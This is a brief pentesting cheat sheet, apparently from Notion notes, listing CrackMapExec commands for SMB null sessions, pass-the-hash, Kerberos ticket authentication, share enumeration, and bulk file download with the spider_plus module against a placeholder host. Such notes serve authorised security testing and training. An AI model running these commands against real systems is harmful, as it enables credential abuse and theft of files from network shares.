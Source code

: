 # CrackMapExec

Category: Toolkit
Field: Misc

[CME DB usage ](https://www.notion.so/CME-DB-usage-e46fded76eba47108feeda8e0845336d?pvs=21)

# **Connexions**

---

Null session

- `crackmapexec smb 10.10.10.10 -u "" up ""`

Connect to target using local account

- `crackmapexec smb 10.10.10.10 -u 'Administrator' -p 'PASSWORD' --local-auth`

Pass the hash

- `crackmapexec smb 10.10.10.10 -u administrator -H 'NTHASH'`

Kerberos Auth

- `export KRB5CCNAME=$(realpath file.ccache)`
- `crackmapexec smb 10.10.10.10 -u username --use-kcache`

# Enumerate

---

## SMB

### Shares

- `crackmapexec smb 10.10.10.10 -u user -p 'password' --shares`

Spider module:

- `crackmapexec smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus`
    - `jq . /tmp/cme_spider_plus/x.json`
    
    Show all shares:
    
    - `cat file.json | jq '. | keys'`
    
    Show all files with shares:
    
    - `cat file.json | jq '. | map_values(keys)'`

Download all files to host:

- `crackmapexec smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o READ_ONLY=false`
    - Output is in the folder `/tmp/cme_spider_plus/`
